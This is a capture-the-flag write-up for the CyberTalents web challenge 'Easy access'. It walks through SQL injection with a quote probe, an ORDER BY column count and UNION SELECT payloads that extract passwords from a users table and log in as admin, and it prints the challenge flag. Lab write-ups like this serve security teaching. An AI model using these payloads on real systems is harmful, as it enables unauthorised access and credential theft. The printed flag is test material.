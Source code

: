 # CyberTalents
## Web Security

### Challenge Name:
 [*Easy access*](https://cybertalents.com/challenges/web/easy-access)
 
### Challenge Description
Only superpower makes you see unlimited view.


Link: [http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/easy-access/](http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/easy-access/)

### Solution
* First we try inject (') to know database version and see if the character was filterd or not.
* Now try use order clause to know how many columns (Try until you reach number of columns don't make syntax error)
```sql
10' ORDER BY 10-- -
```
* Now we are ready to use Union in query
```sql
1' UNION ALL SELECT Password,1,1,2,1 FROM users-- -
```
* He will notice you that you should login as admin to see the flag so
```sql
admin' UNION ALL SELECT Password,1,1,1,1 FROM users-- -
```
* You got the Flag!!


### The Flag
 > flag{!njection_3v3ry_wh3r3} 
